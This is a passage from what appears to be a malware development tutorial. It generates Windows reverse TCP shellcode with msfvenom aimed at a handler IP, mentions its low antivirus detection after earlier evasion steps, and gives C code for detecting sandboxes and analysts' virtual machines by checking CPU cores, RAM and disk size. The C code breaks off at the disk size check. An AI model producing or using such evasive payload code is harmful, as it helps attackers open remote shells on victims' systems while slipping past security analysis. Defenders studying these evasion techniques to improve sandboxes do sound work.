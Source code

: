This time however we use reverse shell shellcode:

`msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.200.102 -f raw`

We will check if the IP address of reverse shell handler (which is a very basic IoC in this case) will be extracted during dynamic analysis.

Using AV evasion techniques described in the previous article we get already low detection rate on VirusTotal:

![VT check](../images/2020-04-05-Malware_development_part_2/VT_check.png)

Microsoft Defender detects the "Meterpreter trojan" (actually it's just a reverse TCP shell, not a Meterpreter shell). VT sandbox is able to extract IP address during dynamic analysis.

Let's start with generic techniques for dynamic analysis detection and bypassing. 

## Detecting virtualized environment
Both sandboxes and analyst's virtualized OSes usually can't 100% accurately emulate actual execution environment (like typical user workstation). Virtualized environments have limited resources (corresponding device names can also provide useful information), may have VM-specific tools and drivers installed, often look like a fresh Windows installation and sometimes use hardcoded user or computer names.  We can take advantage of that.

### Hardware resources
The main problem are limited resources - a sandbox may not be able to run long and consuming simulations in parallel so is often restricts resources commited and time allocated for a single instance. Regular VM boxes used by analysts are also subject for same constraints - they often have their resources limited.

Typical user workstation has a processor with at least 2 cores, a minimum of 2 GB of RAM and a 100 GB hard drive. We can verify if the environment our malicious application is being executed in is a subject to these constrains:

```c
// check CPU
SYSTEM_INFO systemInfo;
GetSystemInfo(&systemInfo);
DWORD numberOfProcessors = systemInfo.dwNumberOfProcessors;
if (numberOfProcessors < 2) return false;

// check RAM
MEMORYSTATUSEX memoryStatus;
memoryStatus.dwLength = sizeof(memoryStatus);
GlobalMemoryStatusEx(&memoryStatus);
DWORD RAMMB = memoryStatus.ullTotalPhys / 1024 / 1024;
if (RAMMB < 2048) return false;

// check HDD
HANDLE hDevice = CreateFileW(L"\\\\.\\PhysicalDrive0", 0, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
DISK_GEOMETRY pDiskGeometry;
DWORD bytesReturned;
DeviceIoControl(hDevice, IOCTL_DISK_GET_DRIVE_GEOMETRY, NULL, 0, &pDiskGeometry, sizeof(pDiskGeometry), &bytesReturned, (LPOVERLAPPED)NULL);
DWORD diskSizeGB;
```